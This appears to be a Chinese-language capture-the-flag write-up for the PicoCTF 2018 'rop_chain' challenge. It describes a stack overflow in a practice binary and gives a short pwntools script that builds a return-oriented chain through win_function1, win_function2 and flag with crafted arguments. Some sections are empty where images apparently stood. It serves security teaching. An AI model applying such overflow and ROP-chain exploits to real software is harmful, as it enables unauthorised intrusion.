





- 函数参数劫持
- 整数型绕过
- `\x00`绕过`len()`

1. 函数`vuln`中存在栈溢出



2. `flag`是后门函数,只要满足`win1 && win2`和`a1 = 0xDEADBAAD`就可以得到`flag`



3.`win1 & win2`存在于`.bss`段上,但是可以利用`win_function1 & win_function2`两个函数构造



> win1



> win2

```python
from pwn import *
#context.log_level = 'debug'
#io = gdb.debug('./PicoCTF_2018_rop_chain','break *080485CB')
io = process('./PicoCTF_2018_rop_chain')
offset = 0x18+4
elf = ELF('./PicoCTF_2018_rop_chain')
payload1 = b'A'*offset+p32(elf.sym['win_function1'])+p32(elf.sym['win_function2'])+p32(elf.sym['flag'])+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#溢出专跳到`win_function1`初始化win1,再到`win_function2`同时传入覆盖`win_function2`的参数a,最后跳转到`flag`函数相同操作
io.sendlineafter(b'Enter your input>',payload1)
io.interactive()
```